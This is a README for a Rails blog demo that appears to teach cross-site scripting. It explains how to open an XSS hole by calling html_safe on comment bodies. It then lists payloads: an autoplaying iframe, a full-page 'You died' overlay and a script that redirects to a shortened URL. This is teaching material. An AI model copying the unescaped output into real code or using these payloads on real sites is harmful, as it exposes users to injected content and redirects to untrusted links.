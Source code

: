 ### Description

This is an example of blog created from this guide: https://guides.rubyonrails.org/getting_started.html


### Setup database

```
bin/rails db:setup
```

### How to add a vulnerability

You need to open `app/views/comments/_comment.html.erb` and change

```
      <%= comment.body %>
```

to

```
      <%= comment.body.html_safe %>
```

### XSS Examples:

**Comment with an iframe**

```
<iframe width="925" height="315" src="https://www.youtube.com/embed/dQw4w9WgXcQ?rel=0&amp;autoplay=1&amp;controls=0&amp;showinfo=0" frameborder="0" allowfullscreen></iframe>
```

**Dark souls style comment**

```
<div style="width:100%;height:100%;position: absolute;top: 0;left:0;background-color: black;color: red;text-align: center;padding: 20%;">
<h1>You died</h1>
</div>
```

**Comment with redirect**

```
<script>
window.location.replace('https://bit.ly/3MRMLyq');
</script>
```